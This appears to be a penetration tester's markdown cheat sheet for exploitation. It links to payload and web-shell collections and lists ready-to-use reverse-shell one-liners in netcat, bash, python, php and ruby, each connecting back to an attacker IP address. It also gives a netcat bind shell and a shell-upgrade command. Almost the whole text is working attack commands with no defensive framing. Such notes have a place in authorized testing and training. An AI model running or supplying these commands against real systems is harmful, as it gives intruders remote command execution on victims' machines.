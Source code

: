 # Exploitation

- ### [Password Attacks](Password_Attacks.md)
- ### [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- ### [Web-Shells](https://github.com/jbarcia/Web-Shells)

## Reverse Shells
- [ ] [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [ ] [Reverse-Shell Generator](https://www.revshells.com/)
- [ ] Netcat
  - [ ] Attacker
  ```bash
  nc -nlvp 1234
  ```
  - [ ] Target
  ```bash
  nc $Attacker_IP 1234 -e /bin/bash
  ```
- [ ] bash
  ```bash
  bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
  bash -c "bash -i >& /dev/tcp/192.168.45.183/443 0>&1"
  ```
- [ ] [perl](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [ ] python
  ```bash
  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.218",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
- [ ] php
  ```bash
  <?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
  ```
  ```bash
  php -r '$sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```
- [ ] ruby
  ```bash
  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
  ```

## Bind Shell
- [ ] Netcat
  - [ ] Attacker
  ```bash
  nc $Target_IP 1234
  ```
  - [ ] Target
  ```bash
  nc - nvlp $Attacker_IP 1234 -e /bin/bash
  ```

## Shell Upgrade
- [ ] python
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
